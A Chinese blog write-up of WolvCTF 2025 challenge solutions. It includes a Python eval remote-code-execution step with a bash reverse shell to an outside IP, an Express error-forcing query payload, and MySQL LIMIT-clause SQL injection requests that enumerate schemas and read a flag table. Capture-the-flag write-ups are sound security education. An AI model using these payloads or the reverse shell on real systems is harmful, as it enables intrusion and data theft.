+++
title = "WolvCTF2025(AK)"
slug = "wolvctf2025-ak"
description = "爽！"
date = "2025-03-22T14:08:09"
lastmod = "2025-03-22T14:08:09"
image = ""
license = ""
categories = ["赛题"]
tags = ["mysql", "nodejs"]
+++

文章首发于先知社区 https://xz.aliyun.com/news/17404

## Eval is Evil

本地测试发现可以直接执行命令但是是无回显

```python
eval(input("What is the number?: "))
```

现在的目的是执行这样的命令

```
__import__('os').system("dir")
```



但是并不知道环境是否出网，而且也不知道远程是否可行

```
exit()
```

这个可以让我们检测到是否能够RCE，本地可行

```
__import__('os').system("/bin/bash -c 'bash -i >& /dev/tcp/156.238.233.93/4444 0>&1'")
```



现在尝试题目看看是否可行呢，不可行(`exit()`也失败了)，但是但是，在第二天，我又發現可以了

```
__import__('os').system('ls')

__import__('os').system('cat flag.txt')
```

我只能神仙环境，服了

## OverAndOver - Crypto

```
Vm0wd2QyUXlVWGxWV0d4V1YwZDRWMVl3WkRSV01WbDNXa1JTV0ZKdGVGWlZNakExVmpBeFYySkVUbGhoTWsweFZtcEtTMUl5U2tWVWJHaG9UVmhDVVZadGVGWmxSbGw1Vkd0c2FsSnRhRzlVVm1oRFZWWmFjVkZ0UmxSTmF6RTFWVEowVjFaWFNraGhSemxWVmpOT00xcFZXbUZrUjA1R1pFWlNUbFpYZHpGV1ZFb3dWakZhV0ZOcmFHaFNlbXhXVm1wT1QwMHhjRlpYYlVaclVqQTFSMVV5TVRSVk1rcElaSHBHVjFaRmIzZFdha1poVjBaT2NtRkhhRk5sYlhoWFZtMHdlR0l4U2tkWGJHUllZbFZhY2xWcVJtRlRSbGw1VFZSU1ZrMXJjRWxhU0hCSFZqSkZlVlZZWkZwbGEzQklXWHBHVDJSV1ZuUmhSazVzWWxob1dGWnRNSGRsUjBsNFUydGtXR0pIVWxsWmJHaFRWMFpTVjJGRlRsTmlSbkJaV2xWb2ExWXdNVVZTYTFwV1lrWktSRlpxU2tkamJVVjZZVVphYUdFeGNHOVdha0poVkRKT2RGSnJaRmhpVjJoeldXeG9iMkl4V25STldHUlZUVlpXTlZWdGRHdFdNV1JJWVVac1dtSkhhRlJXTUZwVFZqRndSVkZyT1dsU00yaFlWbXBLTkZReFdsaFRhMlJxVW0xNGFGVXdhRU5TUmxweFVWaG9hMVpzV2pGV01uaHJZVWRGZWxGcmJGZFdNMEpJVmtSS1UxWXhWblZWYlhCVFlYcFdXVlpYY0U5aU1rbDRWMWhvWVZKR1NuQlVWbHBYVGtaYVdHUkhkRmhTTUhCNVZHeGFjMWR0U2tkWGJXaGFUVzVvV0ZsNlJsZGpiSEJIWVVkc1UwMHhSalpXYWtvd1ZURlZlRmR1U2s1WFJYQnhWV3hrTkdGR1ZYZGhSVTVVVW14d2VGVXlkR0ZpUmxwelYyeHdXR0V4Y0ROWmEyUkdaV3hHY21KR1pHbFhSVXBKVm10U1MxVXhXWGhYYmxaVllrZG9jRlpxU205bGJHUllaVWM1YVUxcmJEUldNalZUVkd4a1NGVnNXbFZXYkhCWVZHeGFWMlJIVWtoa1JtUk9WakZLU2xkV1ZtRmpNV1IwVTJ0a1dHSlhhR0ZVVmxwM1ZrWmFjVkp0ZEd0U2EzQXdXbFZhYTJGV1NuTmhNMmhYWVRGd2FGWlVSbFpsUm1SMVUyczFXRkpZUW5oV1Z6QjRZakZaZUZWc2FFOVdhelZ6V1d0YWQyVkdWWGxrUkVKWFRWWndlVll5ZUhkWGJGcFhZMGRvV21FeVVrZGFWV1JQVTFkS1IxcEdaRk5XV0VKMlZtMTBVMU14VVhsVmEyUlVZbXR3YUZWdE1XOWpSbHB4VkcwNVYxWnRVbGhXVjNNMVZXc3hXRlZyYUZkTmFsWlVWa2Q0WVZKc1RuTmhSbFpYVFRKb1NWWkhlR0ZaVm1SR1RsWmFVRlp0YUZSVVZXaERVMnhhYzFwRVVtcE5WMUl3VlRKMGExZEhTbGhoUjBaVlZteHdNMWxWV25kU2JIQkhWR3hTVTJFelFqVldSM2hoVkRKR1YxTnVVbEJXUlRWWVZGYzFiMWRHWkZkWGJFcHNWbXR3ZVZkcldtOWhWMFkyVm01b1YxWkZTbkpVYTFwclVqRldjMXBHYUdoTk1VcFdWbGN4TkdReVZrZFdibEpPVmxkU1YxUlhkSGRXTVd4eVZXMUdXRkl3VmpSWk1HaExWMnhhV0ZWclpHRldWMUpRVlRCVk5WWXlSa2hoUlRWWFltdEtNbFp0TVRCVk1VMTRWVmhzVlZkSGVGWlpWRVozWVVaV2NWTnRPVmRTYkVwWlZGWmpOV0pIU2toVmJHeGhWbGROTVZsV1ZYaFhSbFoxWTBaa1RsWXlhREpXYWtKclV6RmtWMVp1U2xCV2JIQnZXVlJHZDFOV1draGxSMFphVm0xU1IxUnNXbUZWUmxsNVlVaENWbUpIYUVOYVJFWmhZekZ3UlZWdGNFNVdNVWwzVmxSS01HRXhaRWhUYkdob1VqQmFWbFp0ZUhkTk1YQllaVWhLYkZaVVJsZFhhMXBQWVZaS2NtTkVXbGRoTWs0MFdYcEdWbVZXVG5WVGJGSnBWbFp3V1ZaR1l6RmlNV1JIV2taa1dHSkZjSE5WYlRGVFpXeHNWbGRzVG1oV2EzQXhWVmMxYjFZeFdYcGhTRXBYVmtWYWVsWnFSbGRqTVdSellVZHNWMVp1UWpaV01XUXdXVmRSZVZaclpGZFhSM2h5Vld0V1MxZEdVbGRYYm1Sc1ZteHNOVnBWYUd0WFIwcEhZMFpvV2sxSGFFeFdha3BIWTJ4a2NtVkdaR2hoTTBKUlZsZHdSMWxYVFhsU2EyUm9VbXhLVkZac2FFTlRNVnB4VW0xR1ZrMVZNVFJXYkdodlYwWmtTR0ZIYUZaTlJuQm9WbTE0YzJOc1pISmtSM0JUWWtoQ05GWlVTWGRPVjBwSVUydG9WbUpIZUdoV2JHUk9UVlpzVjFaWWFGaFNiRnA1V1ZWYWExUnRSbk5YYkZaWFlUSlJNRlY2Umt0ak1YQkpWbXhTYVZKc2NGbFhWM1J2VVRBMWMxZHJhR3hTTUZwaFZtMHhVMUl4VW5OWGJVWldVbXh3TUZaWGN6VldNa1p5VjJ0NFZrMXVhSEpXYWtaaFpFWktkR05GTlZkTlZXd3pWbXhTUzAxSFJYaGFSV2hVWWtkb2IxVnFRbUZXYkZwMFpVaGtUazFYZUZkV01qVnJWVEpLU1ZGcmFGZFNNMmhVVm1wS1MyTnNUbkpoUm1SVFRUSm9iMVpyVWt0U01XUkhVMnhzWVZJelFsUldhazV2VjFaa1dHVkhPVkpOVlRFMFZsZDRhMWxXU2xkalNFNVdZbFJHVkZZeWVHdGpiRnBWVW14b1UyRXpRbUZXVm1NeFlqRlplRmRZY0doVFJYQmhXVmQwWVdWc1duRlNiR1JxVFZkU2VsbFZaRzlVYXpGV1kwUktWMkpIVGpSVWEyUlNaVlphY2xwR1pHbGlSWEJRVm0xNGExVXlTWGhWYkdSWFltMVNjMWxyV25OT1ZuQldXa1ZrVjAxcmNFaFphMUpoVjJ4YVdHRkZlRmROYm1ob1ZqQmFWMk5zY0VoU2JHUlhUVlZ3VWxac1pIZFNNV3hZVkZoc1UyRXlVbTlWYlhoTFZrWmFjMkZGVGxSTlZuQXdWRlpTUTFack1WWk5WRkpYVm0xb2VsWnNXbXRUUjBaSVlVWmFUbEp1UW05V2JURTBZekpPYzFwSVNtdFNNMEpVV1d0YWQwNUdXbGhOVkVKT1VteHNORll5TlU5aGJFcFlZVVpvVjJGck5WUldSVnB6VmxaR1dXRkdUbGRoTTBJMlZtdGtORmxXVlhsVGExcFlWMGhDV0Zac1duZFNNVkY0VjJ0T1ZtSkZTbFpVVlZGM1VGRTlQUT09
```

```python
import base64

# 输入题目提供的字符串
encoded_string = """
Vm0wd2QyUXlVWGxWV0d4V1YwZDRWMVl3WkRSV01WbDNXa1JTV0ZKdGVGWlZNakExVmpBeFYySkVUbGhoTWsweFZtcEtTMUl5U2tWVWJHaG9UVmhDVVZadGVGWmxSbGw1Vkd0c2FsSnRhRzlVVm1oRFZWWmFjVkZ0UmxSTmF6RTFWVEowVjFaWFNraGhSemxWVmpOT00xcFZXbUZrUjA1R1pFWlNUbFpYZHpGV1ZFb3dWakZhV0ZOcmFHaFNlbXhXVm1wT1QwMHhjRlpYYlVaclVqQTFSMVV5TVRSVk1rcElaSHBHVjFaRmIzZFdha1poVjBaT2NtRkhhRk5sYlhoWFZtMHdlR0l4U2tkWGJHUllZbFZhY2xWcVJtRlRSbGw1VFZSU1ZrMXJjRWxhU0hCSFZqSkZlVlZZWkZwbGEzQklXWHBHVDJSV1ZuUmhSazVzWWxob1dGWnRNSGRsUjBsNFUydGtXR0pIVWxsWmJHaFRWMFpTVjJGRlRsTmlSbkJaV2xWb2ExWXdNVVZTYTFwV1lrWktSRlpxU2tkamJVVjZZVVphYUdFeGNHOVdha0poVkRKT2RGSnJaRmhpVjJoeldXeG9iMkl4V25STldHUlZUVlpXTlZWdGRHdFdNV1JJWVVac1dtSkhhRlJXTUZwVFZqRndSVkZyT1dsU00yaFlWbXBLTkZReFdsaFRhMlJxVW0xNGFGVXdhRU5TUmxweFVWaG9hMVpzV2pGV01uaHJZVWRGZWxGcmJGZFdNMEpJVmtSS1UxWXhWblZWYlhCVFlYcFdXVlpYY0U5aU1rbDRWMWhvWVZKR1NuQlVWbHBYVGtaYVdHUkhkRmhTTUhCNVZHeGFjMWR0U2tkWGJXaGFUVzVvV0ZsNlJsZGpiSEJIWVVkc1UwMHhSalpXYWtvd1ZURlZlRmR1U2s1WFJYQnhWV3hrTkdGR1ZYZGhSVTVVVW14d2VGVXlkR0ZpUmxwelYyeHdXR0V4Y0ROWmEyUkdaV3hHY21KR1pHbFhSVXBKVm10U1MxVXhXWGhYYmxaVllrZG9jRlpxU205bGJHUllaVWM1YVUxcmJEUldNalZUVkd4a1NGVnNXbFZXYkhCWVZHeGFWMlJIVWtoa1JtUk9WakZLU2xkV1ZtRmpNV1IwVTJ0a1dHSlhhR0ZVVmxwM1ZrWmFjVkp0ZEd0U2EzQXdXbFZhYTJGV1NuTmhNMmhYWVRGd2FGWlVSbFpsUm1SMVUyczFXRkpZUW5oV1Z6QjRZakZaZUZWc2FFOVdhelZ6V1d0YWQyVkdWWGxrUkVKWFRWWndlVll5ZUhkWGJGcFhZMGRvV21FeVVrZGFWV1JQVTFkS1IxcEdaRk5XV0VKMlZtMTBVMU14VVhsVmEyUlVZbXR3YUZWdE1XOWpSbHB4VkcwNVYxWnRVbGhXVjNNMVZXc3hXRlZyYUZkTmFsWlVWa2Q0WVZKc1RuTmhSbFpYVFRKb1NWWkhlR0ZaVm1SR1RsWmFVRlp0YUZSVVZXaERVMnhhYzFwRVVtcE5WMUl3VlRKMGExZEhTbGhoUjBaVlZteHdNMWxWV25kU2JIQkhWR3hTVTJFelFqVldSM2hoVkRKR1YxTnVVbEJXUlRWWVZGYzFiMWRHWkZkWGJFcHNWbXR3ZVZkcldtOWhWMFkyVm01b1YxWkZTbkpVYTFwclVqRldjMXBHYUdoTk1VcFdWbGN4TkdReVZrZFdibEpPVmxkU1YxUlhkSGRXTVd4eVZXMUdXRkl3VmpSWk1HaExWMnhhV0ZWclpHRldWMUpRVlRCVk5WWXlSa2hoUlRWWFltdEtNbFp0TVRCVk1VMTRWVmhzVlZkSGVGWlpWRVozWVVaV2NWTnRPVmRTYkVwWlZGWmpOV0pIU2toVmJHeGhWbGROTVZsV1ZYaFhSbFoxWTBaa1RsWXlhREpXYWtKclV6RmtWMVp1U2xCV2JIQnZXVlJHZDFOV1draGxSMFphVm0xU1IxUnNXbUZWUmxsNVlVaENWbUpIYUVOYVJFWmhZekZ3UlZWdGNFNVdNVWwzVmxSS01HRXhaRWhUYkdob1VqQmFWbFp0ZUhkTk1YQllaVWhLYkZaVVJsZFhhMXBQWVZaS2NtTkVXbGRoTWs0MFdYcEdWbVZXVG5WVGJGSnBWbFp3V1ZaR1l6RmlNV1JIV2taa1dHSkZjSE5WYlRGVFpXeHNWbGRzVG1oV2EzQXhWVmMxYjFZeFdYcGhTRXBYVmtWYWVsWnFSbGRqTVdSellVZHNWMVp1UWpaV01XUXdXVmRSZVZaclpGZFhSM2h5Vld0V1MxZEdVbGRYYm1Sc1ZteHNOVnBWYUd0WFIwcEhZMFpvV2sxSGFFeFdha3BIWTJ4a2NtVkdaR2hoTTBKUlZsZHdSMWxYVFhsU2EyUm9VbXhLVkZac2FFTlRNVnB4VW0xR1ZrMVZNVFJXYkdodlYwWmtTR0ZIYUZaTlJuQm9WbTE0YzJOc1pISmtSM0JUWWtoQ05GWlVTWGRPVjBwSVUydG9WbUpIZUdoV2JHUk9UVlpzVjFaWWFGaFNiRnA1V1ZWYWExUnRSbk5YYkZaWFlUSlJNRlY2Umt0ak1YQkpWbXhTYVZKc2NGbFhWM1J2VVRBMWMxZHJhR3hTTUZwaFZtMHhVMUl4VW5OWGJVWldVbXh3TUZaWGN6VldNa1p5VjJ0NFZrMXVhSEpXYWtaaFpFWktkR05GTlZkTlZXd3pWbXhTUzAxSFJYaGFSV2hVWWtkb2IxVnFRbUZXYkZwMFpVaGtUazFYZUZkV01qVnJWVEpLU1ZGcmFGZFNNMmhVVm1wS1MyTnNUbkpoUm1SVFRUSm9iMVpyVWt0U01XUkhVMnhzWVZJelFsUldhazV2VjFaa1dHVkhPVkpOVlRFMFZsZDRhMWxXU2xkalNFNVdZbFJHVkZZeWVHdGpiRnBWVW14b1UyRXpRbUZXVm1NeFlqRlplRmRZY0doVFJYQmhXVmQwWVdWc1duRlNiR1JxVFZkU2VsbFZaRzlVYXpGV1kwUktWMkpIVGpSVWEyUlNaVlphY2xwR1pHbGlSWEJRVm0xNGExVXlTWGhWYkdSWFltMVNjMWxyV25OT1ZuQldXa1ZrVjAxcmNFaFphMUpoVjJ4YVdHRkZlRmROYm1ob1ZqQmFWMk5zY0VoU2JHUlhUVlZ3VWxac1pIZFNNV3hZVkZoc1UyRXlVbTlWYlhoTFZrWmFjMkZGVGxSTlZuQXdWRlpTUTFack1WWk5WRkpYVm0xb2VsWnNXbXRUUjBaSVlVWmFUbEp1UW05V2JURTBZekpPYzFwSVNtdFNNMEpVV1d0YWQwNUdXbGhOVkVKT1VteHNORll5TlU5aGJFcFlZVVpvVjJGck5WUldSVnB6VmxaR1dXRkdUbGRoTTBJMlZtdGtORmxXVlhsVGExcFlWMGhDV0Zac1duZFNNVkY0VjJ0T1ZtSkZTbFpVVlZGM1VGRTlQUT09
"""

while True:
    try:
        # 尝试进行 Base64 解码
        decoded = base64.b64decode(encoded_string).decode('utf-8')
        print(decoded)  # 输出解码结果
        encoded_string = decoded  # 继续解码
    except Exception as e:
        print("解码结束，无法继续解码。")
        break

```

## JWT Learning - Web

把jwt改了就行

## DigginDir - Forensics

写个脚本把所有文件提取一下

```python
#!/usr/bin/env python3
import os


def extract_file_contents(root_dir):
    """
    递归搜索指定目录下的所有文件并提取其内容

    Args:
        root_dir: 开始搜索的根目录

    Returns:
        包含(file_path, content)的列表
    """
    results = []

    # 遍历所有目录和文件
    for dirpath, dirnames, filenames in os.walk(root_dir):
        for filename in filenames:
            file_path = os.path.join(dirpath, filename)
            try:
                # 尝试以文本方式读取所有文件
                with open(file_path, 'r', encoding='utf-8', errors='ignore') as f:
                    content = f.read().strip()
                    # 只记录非空文件
                    if content:
                        results.append((file_path, content))
            except Exception as e:
                print(f"Error reading {file_path}: {e}")

    return results


def main():
    challenge_dir = "challenge"  # 改为你的挑战目录

    print(f"Extracting contents from all files in {challenge_dir}...")
    file_contents = extract_file_contents(challenge_dir)

    if file_contents:
        print(f"\nFound {len(file_contents)} files with content:")
        for i, (file_path, content) in enumerate(file_contents, 1):
            print(f"{i}. File: {file_path}")
            print(f"   Content: {content}")
            print()
    else:
        print("No files with content found.")


if __name__ == "__main__":
    main()

```

## Javascript Puzzle

代码很少，这种题目应该做着是特别舒服的哈哈，根本不用找，不会就是不会

```js
const express = require('express')

const app = express()
const port = 8000

app.get('/', (req, res) => {
    try {
        const username = req.query.username || 'Guest'
        const output = 'Hello ' + username
        res.send(output)
    }
    catch (error) {
        res.sendFile(__dirname + '/flag.txt')
    }
})

app.listen(port, () => {
    console.log(`Server is running at http://localhost:${port}`)
})
```

我们只要让try模块报错就可以拿到flag了，但是一般的方法都不能成功，首先是拼接字符串，所以我们肯定是不能为字符串，需要把username设置为对象，再随便覆盖一个方法，那么拼接的时候就会触发这个方法了

```
?username[toString]=()=>{throw new Error()}
```

## Limited 2

写了两个异步函数在这里，抓包发现也确实是这样的



然后看到WEB应用代码，是个很明显的sql注入

```python
@app.route('/query')
def query():
    try:
        price = float(request.args.get('price') or '0.00')
    except:
        price = 0.0

    price_op = str(request.args.get('price_op') or '>')
    if not re.match(r' ?(=|<|<=|<>|>=|>) ?', price_op):
        return 'price_op must be one of =, <, <=, <>, >=, or > (with an optional space on either side)', 400

    # allow for at most one space on either side
    if len(price_op) > 4:
        return 'price_op too long', 400

    # I'm pretty sure the LIMIT clause cannot be used for an injection
    # with MySQL 9.x
    #
    # This attack works in v5.5 but not later versions
    # https://lightless.me/archives/111.html
    limit = str(request.args.get('limit') or '1')

    query = f"""SELECT /*{FLAG1}*/category, name, price, description FROM Menu WHERE price {price_op} {price} ORDER BY 1 LIMIT {limit}"""
    print('query:', query)

    if ';' in query:
        return 'Sorry, multiple statements are not allowed', 400

    try:
        cur = mysql.connection.cursor()
        cur.execute(query)
        records = cur.fetchall()
        column_names = [desc[0] for desc in cur.description]
        cur.close()
    except Exception as e:
        return str(e), 400

    result = [dict(zip(column_names, row)) for row in records]
    return jsonify(result)
```

其中有一篇[文章](https://lightless.me/archives/111.html) 里面说到可以因为有limit语句可以使用**PROCEDURE**来进行sql注入，核心语句为

```sql
procedure analyse(extractvalue(1,concat(version())));
```

但是版本高了就没有用了，现在的版本是mysql9，总共是四列，50条数据，后面发现抓包可以改数据

```sql
SELECT /*wctf{redacted-flag}*/category, name, price, description FROM Menu WHERE price </*> 50.0 ORDER BY 1 LIMIT */3
```

```http
GET /query?price=50&price_op=</*>&limit=*/3 HTTP/1.1
Host: 156.238.233.93:40000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: */*
Referer: http://156.238.233.93:40000/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session=f51b8788-6a7e-44bf-b9b2-645ed1e6c44a.ii_JoIj4aA0aEMYNQ1BLME0aW-Q
Connection: close


```

```http
GET /query?price=50&price_op=</*>&limit=*/3+union+select+1,2,3,4 HTTP/1.1
Host: 156.238.233.93:40000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: */*
Referer: http://156.238.233.93:40000/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session=f51b8788-6a7e-44bf-b9b2-645ed1e6c44a.ii_JoIj4aA0aEMYNQ1BLME0aW-Q
Connection: close


```

```sql
select/**/group_concat(schema_name)from/**/information_schema.schemata

select/**/group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema='ctf'

select/**/group_concat(column_name)from/**/information_schema.columns/**/where/**/table_name='Flag_REDACTED'


select/**/group_concat(value)from/**/Flag_REDACTED
```

但是题目不一样，并且因为是http2，





必须用hackbar

```sql
select/**/group_concat(column_name)from/**/information_schema.columns/**/where/**/table_name='Flag_843423739'

select/**/group_concat(value)from/**/Flag_843423739
```

## Limited 1

现在是要查内部注释的flag了，问gpt(我不如AI)



